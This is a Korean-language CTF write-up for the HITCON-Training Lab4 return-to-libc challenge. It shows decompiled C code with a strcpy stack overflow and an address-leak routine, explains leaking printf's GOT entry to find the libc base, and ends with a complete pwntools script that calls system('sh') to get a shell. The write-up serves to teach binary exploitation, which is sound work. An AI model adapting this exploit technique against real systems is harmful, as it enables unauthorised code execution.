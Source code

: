 ```yaml
---
title: "[HITCON-Training]Lab4"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


RTL문제다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char **v3; // ST04_4
  int v4; // ST08_4
  char src; // [esp+12h] [ebp-10Eh]
  char buf; // [esp+112h] [ebp-Eh]
  _DWORD *v8; // [esp+11Ch] [ebp-4h]
 
  puts("###############################");
  puts("Do you know return to library ?");
  puts("###############################");
  puts("What do you want to see in memory?");
  printf("Give me an address (in dec) :");
  fflush(stdout);
  read(0, &buf, 10u);
  v8 = strtol(&buf, v3, v4);
  See_something(v8);
  printf("Leave some message for me :");
  fflush(stdout);
  read(0, &src, 256u);
  Print_message(&src);
  puts("Thanks you ~");
  return 0;
}
```

buf에 10진수로 printf의 got값을 넣어주면 See_something함수에서 그 주소가 leak된다. 

leak된 printf로 libc base 구한 후 system address 구해주면 된다.

```c
int __cdecl See_something(_DWORD *a1)
{
  return printf("The content of the address : %p\n", *a1);
}
```

read()함수에 넣은 src가 Print_message함수에 인자로 들어가서 strcpy에서 취약점이 발생한다. 

```c
int __cdecl Print_message(char *src)
{
  char dest; // [esp+10h] [ebp-38h]
 
  strcpy(&dest, src);
  return printf("Your message is : %s", &dest);
}
```

payload = buf(0x38) + sfp(4) + ret(system) + pop + sh

이렇게 페이로드 구성해주면 쉘을 딸 수 있다.

.dynstr에서 sh위치 가져와서 system("sh");가 되게 했다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./ret2lib')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./ret2lib')
 
p.sendlineafter(':',str(e.got['printf']))
 
p.recvuntil(': ')
printf = int(p.recv(10),16)
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
 
sh = 0x804829e # .dynstr -> fflush
popret = 0x08048399 # pop ebx ; ret
pay = 'A'*(0x38+4)
pay += p32(system)
pay += p32(popret)
pay += p32(sh)
 
p.sendlineafter(':',pay)
p.interactive()
```

